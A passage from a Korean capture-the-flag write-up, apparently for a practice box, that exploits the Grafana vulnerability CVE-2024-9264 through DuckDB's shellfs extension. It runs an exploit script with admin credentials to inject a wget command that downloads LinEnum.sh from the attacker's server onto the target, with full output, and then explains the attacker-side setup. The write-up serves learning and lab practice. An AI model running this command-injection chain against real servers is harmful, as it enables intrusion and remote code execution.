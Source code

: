 # 이제 반대로 칼리에서 설치한 linenum 를 타겟의 grafana 서버로 다운로드 받아서 실행

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.12:8000/linenum.sh" http://grafana.planning.htb

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: wget http://10.10.16.12:8000/linenum.sh
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT \* FROM read_csv('wget http://10.10.16.12:8000/linenum.sh >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
--2025-06-03 14:19:42-- http://10.10.16.12:8000/linenum.sh
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'linenum.sh.3'

     0K .......... .......... .......... .......... .....     100% 8.81K=5.2s

2025-06-03 14:19:48 (8.81 KB/s) - 'linenum.sh.3' saved [46631/46631]

# DuckDB의 read_blob() 함수로 파일 내용 읽기

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/tmp/enum_result.txt')" http://grafana.planning.htb

--------------- 정리

OSCP 해킹 과정의 **완전한 데이터 흐름**과 **명령어 분석**을 상세히 설명드리겠습니다.

## 완전한 공격 시나리오 분석

### 1단계: 공격자 환경 준비 (Kali Linux)

```bash
# LinEnum.sh 다운로드 (시스템 정보 수집 도구)
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O linenum.sh
```

**명령어 분석:**

- `wget`: HTTP/HTTPS로 파일 다운로드하는 도구
- `https://raw.githubusercontent.com/...`: GitHub에서 직접 원본 파일 URL
- `-O linenum.sh`: 다운로드한 파일을 'linenum.sh'로 저장
- **LinEnum**: Linux 시스템의 권한 상승 가능성을 찾는 자동화 스크립트

```bash
# HTTP 웹 서버 실행 (파일 전송 준비)
python3 -m http.server 8000
```

**명령어 분석:**
